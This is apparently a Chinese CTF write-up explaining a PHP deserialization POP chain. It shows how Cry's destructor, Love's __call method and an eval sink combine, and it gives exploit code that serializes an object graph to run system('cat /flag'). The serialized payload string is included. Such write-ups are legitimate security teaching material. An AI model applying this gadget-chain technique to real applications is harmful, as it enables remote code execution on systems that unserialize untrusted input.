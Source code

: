 这里考察了一下反序列化和魔术方法的利用：（简单POP链的构造）

找到Cry类中的y0u_hacker方法（因为存在eval函数），所以就从这里入手，看看能不能调用这个函数，并且fl4g参数可控；（大多安全问题都来源于输入与输出）



这里审计一下代码，发现Love类中的__call方法调用了y0u_hacker函数，那么就要想办法调用这个函数（关于\_\_call方法，当该对象调用的方法不存在的时候，就调用这个方法）



所以这里找到Cry的__destruct析构函数，如果这里将C变为Love对象，那么就会调用Love对象的\_\_call方法（因为Love对象没有s4y_l0v3这个函数）



那么到此，利用链就清楚了

```
<?php
class Cry{
        public $C;
        public $fl4g;
        public function halo(){
                echo "这么多代码，是不是不想看！！！！！！！！";
        }
        public function y0u_hacker(){
                //echo $this->fl4g;
                eval($this->fl4g);
        }
        function __destruct(){
                //echo "Cry类死了！";
                $this->C->s4y_l0v3();
        }
}
class Love{
        public $B;
        public function sea_said(){
                echo "愿你一生努力，一生被爱！！";
        }
        public function y0u_love(){
                echo "想要的都拥有，得不到的都释怀！！";
        }
        //s4y_l0v3明天再写
        function __call($method,$value){ //最终的利用方式
                $this->B->y0u_hacker();
        }
        function __destruct(){
                //echo "Love类死了！";
        }
}
$Cry_1 = new Cry();
$Cry_2 = new Cry(); //Love类的B参数对象
$Cry_2->fl4g = "system('cat /flag');";
//通过Cry_1对象的析构，调用s4y_l0v3方法
$Love_1 = new Love();
$Love_1->B = $Cry_2;
$Cry_1->C = $Love_1;
echo serialize($Cry_1);

//O:3:"Cry":2:{s:1:"C";O:4:"Love":1:{s:1:"B";O:3:"Cry":2:{s:1:"C";N;s:4:"fl4g";s:20:"system('cat /flag');";}}s:4:"fl4g";N;}
```
